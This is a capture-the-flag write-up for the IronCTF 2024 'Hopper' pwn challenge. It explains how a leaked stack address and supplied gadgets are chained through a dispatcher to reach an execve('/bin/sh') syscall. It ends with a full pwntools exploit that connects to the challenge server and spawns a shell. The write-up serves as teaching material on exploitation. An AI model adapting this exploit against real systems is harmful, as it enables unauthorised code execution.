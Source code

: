 # Hopper
## Description
Hippety-hop... Hippety-hop your way to victory!
Ctf: ironctf2024 https://ctf.1nf1n1ty.team/challenges#Hopper-15
Author: Vigneswar
Category: pwn
`nc pwn.1nf1n1ty.team 31886`
## Writeup
### Overview
In this challenge we are given only binary without source code so we need to make use of IDA free to see what this binary does.
But first we check what is this file using `file`  program
![](attachments/Pasted%20image%2020241006121743.png)
we also `checksec` to find out what security features does this binary have
![](attachments/Pasted%20image%2020241006121915.png)
from this we could say that this is nearly perfect binary for pwning, but life is not all roses and we cannot execute code from the stack.
Lets take look at what is inside, shall we?

![](attachments/Pasted%20image%2020241006122327.png)

there is not even main function in this programme so we take a look at `start` .
What it does is:
- print a bunny ascii image
- print retaddr (very important for us)
- print "hop hop" as ascii image
- takes our input to a stack
- jumps to an address that that is at the top of our input
Why is this retaddr important for us?
Thanks to it we can find out where is stack located, and we can reference addresses according to this leaked address.
Luckily for us we are provided some gadgets that can help us exploit this challenge.

![](attachments/Pasted%20image%2020241006123411.png)
![](attachments/Pasted%20image%2020241006123425.png)![](attachments/Pasted%20image%2020241006123440.png)![](attachments/Pasted%20image%2020241006123711.png)
### Plan for an exploit
Since we cannot execute the code from the stack we need to use provided gadgets to execute `syscall` of `execve`. What this means is we have to set some registers according to requirements
[x64.syscall.sh](https://x64.syscall.sh/)

![](attachments/Pasted%20image%2020241006123857.png)
- `RAX` has to be `0x3B`
- `RDI` has to be pointer to the beginning of `/bin/sh` string
- `RSI` has to be `0`
- `RDX` has to be `0`
and we need to execute `syscall` after that

How do we control the flow of the programme using those gadgets? 
If we put address of dispatcher in `r15` (address that is jumped to at the end of most of the gadgets) we can use it to jump to some gadget like

![](attachments/Pasted%20image%2020241006124910.png)
and then jump back to `r15` - dispatcher 
what dispatcher does is it increases value in `rbx` by `8`  and jumps to address that is pointed by address in this register. So we can essentially use it to walk the gadgets of which we put addresses on the stack.
### Actual exploit
In order to do that we can put an address of gadgets at the top:
- address of `gadgets` gets popped of to `rsi`
- address of `/bin/sh\x00` gets popped of to `rdi`
- address of we leaked earlier gets popped of to `rbx` (this is the address that will be used by dispatcher)
- value of `0x3B` gets popped of to `r13`
- address of `dispacher` gets popped to `r15`
- we jump to `disparcher` 
- `dispacher` jumps to itself
- `dispatcher` jumps to gadgets that clears `rsi`
- `dispatcher` jumps to `xchg rax, r13` to set rax to be `0x3b`
- from there we jump to address that is at `rsp`
- from `dispatcher` we once again clear `rsi`
- from `dispatcher` we once again clear `rdx`
- finally we jump to `syscall`
Code:
```python
from pwn import remote, p64, u64

conn = remote("pwn.1nf1n1ty.team", 31886)

msg = conn.recvuntil(b'>>')
addr = msg[379: 379 + 8]

addr_int = u64(addr)
bin_sh_addr = addr_int + 8 * 6

gadget_chain = 0x401017
dispatcher_addr = 0x401011
xor_rsi = 0x401027
xchg_rax_r13 = 0x40100c
xor_rdx = 0x401021
syscall = 0x40100a

payload = p64(gadget_chain)
payload += p64(bin_sh_addr)         # rdi
payload += p64(addr_int)            # rbx
payload += p64(0x3b)                # r13 (later rax)
payload += p64(dispatcher_addr)     # r15 dispatcher
payload += p64(xor_rsi)             # clear rsi
payload += p64(xchg_rax_r13)        # swap rax and r13
payload += p64(xor_rdx)             # clear rdx
payload += p64(syscall)             # syscall
payload += b'/bin/sh\x00'

conn.sendline(payload)
conn.interactive()
```
### Pro tip
if you don't include null byte at the end of `/bin/sh` you might find yourself debugging for few additional hours